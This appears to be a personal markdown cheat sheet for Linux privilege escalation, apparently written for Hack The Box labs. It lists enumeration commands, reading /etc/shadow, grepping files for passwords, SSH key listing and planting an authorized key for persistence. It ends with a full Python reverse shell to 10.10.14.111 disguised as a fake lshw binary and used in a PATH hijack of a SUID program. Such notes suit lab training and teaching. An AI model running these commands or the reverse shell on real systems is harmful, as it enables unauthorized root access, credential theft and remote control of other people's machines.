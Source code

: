 ## Privilege escalation on Linux
### System/user info
`uname -a` Kernel version

`env` Environment variables

`whoami`

`history`

### Other users/history
`who`

`w`

`last`

### Sudoers check
`sudo -l` From sudo's man page:
```
     -l, --list  If no command is specified, list the allowed (and
                 forbidden) commands for the invoking user (or the user
                 specified by the -U option) on the current host. A
                 longer list format is used if this option is specified
                 multiple times and the security policy supports a
                 verbose output format.

                 If a command is specified and is permitted by the
                 security policy, the fully-qualified path to the
                 command is displayed along with any command line
                 arguments.  If command is specified but not allowed,
                 sudo will exit with a status value of 1.
```

Get superusers:
 `grep -v -E "ˆ#" /etc/passwd | awk -F: '$3 == 0 {print $1}'`
 
 ### Network check
 `ifconfig -a`

 `netstat -antup`
 
`lsof -a`

### Processes & software
`ps aux`

List versions of software in the machine (mysql, httpd, python, etc).

### SUID files
These are files that can be run as an admin from another user:

`find / -perm -u=s -type f 2>/dev/null`

### Password hashes:

`cat /etc/shadow`

### Cron jobs

`ls -la /etc/cron*`

Files that another user may be executing and that you can overwrite. If when analyzing the processes there are files that are being executed/copied/used at all by root, for instance, if you can modify those you can get root to run arbitrary code.

### Check for ssh keys:

`ls -la ~/.ssh`

Find passwords around:

`find . -type f -maxdepth 4 | xargs grep -i "password"`

## Search for vulnerabilities
Use `searchsploit` to see if the kernel is vulnerable.

`searchsploit kernel X.Y linux` | sort -n

## Getting a steadier shell
Write your public key to `~/.ssh/authorized-keys` and connect by ssh:

`echo 'your public key' >> ~/.ssh/authorized-keys`

## Trick program that calls other through PATH
(htb magic) Through SUID check we notice that the user can execute /bin/sysinfo as root. As sysinfo calls lshw, we create another file called lshw that reverse shells to us, and add the path of our malicious lshw to the beginning of the PATH (add the full one, including the file name).

```bash
echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.111\",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > /tmp/lshw

export PATH=/tmp/lshw:$PATH
```

## Resources
[Linux Privilege Escalation - Tradecraft Security Weekly #22](https://www.youtube.com/watch?v=oYHAi0cgur4)
